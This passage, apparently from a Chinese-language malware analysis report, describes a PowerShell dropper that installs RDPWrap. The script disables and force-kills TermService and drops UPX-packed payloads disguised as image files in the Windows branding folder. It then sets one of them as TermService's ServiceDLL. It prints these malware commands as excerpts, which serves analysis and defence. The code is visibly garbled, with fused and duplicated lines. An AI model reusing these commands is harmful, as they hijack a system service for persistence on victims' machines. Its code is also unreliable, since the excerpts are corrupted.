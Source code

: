 ```
"Last Help"=dword:0000238d
"Object List"="9100"
```

为此注册表 blob 列出的 ServiceDll 是:

```
%SystemRoot%\\System32\\termsrv.dll\x00
```

然而，在安装了这个新服务之后，它就停止了，因此这看起来是为简单地建立占位符服务而设计的:

```
}
write-host kill
set-service TermService -StartupType Disabled
$tspid=(get-wmiobject win32_service | where { $_.name -eq 'TermService'}).processID
Stop-Process -Id $tspid -Forceew-Service -Name "termservice" -BinaryPathName "C:\WINDOWS\System32\svchost.exe -k networkservice"
 reg import $env:temp\rpds.reg}
write-host kill
set-service TermService -StartupType Disabled
$tspid=(get-wmiobject win32_service | where { $_.name -eq 'TermService'}).processID
Stop-Process -Id $tspid -Force
```

写入磁盘的大多数文件都与 RDPWrap 所需的文件相关，但有两个文件似乎与 RDPWrap 无关，它们也是 UPX 打包的。这些文件作为硬编码文件写入磁盘。

```
$fldr=$env:systemroot+"\branding\"
$bf="mediasvc.png"
$rf="mediasrv.png"
$cf="wupsvc.jpg"
```

其中一个文件将被设置为前面提到的占位符服务的新 ServiceDLL 值:

```
reg add "HKLM\system\currentcontrolset\services\TermService\parameters" /v ServiceDLL /t REG_EXPAND_SZ /d $fldr$rf /f
```

# 有效载荷

该文件自称为“Helper ”,它包含编码字符串:

![](img/18c0e4fa0bc388506a9c94f485492d78.png)
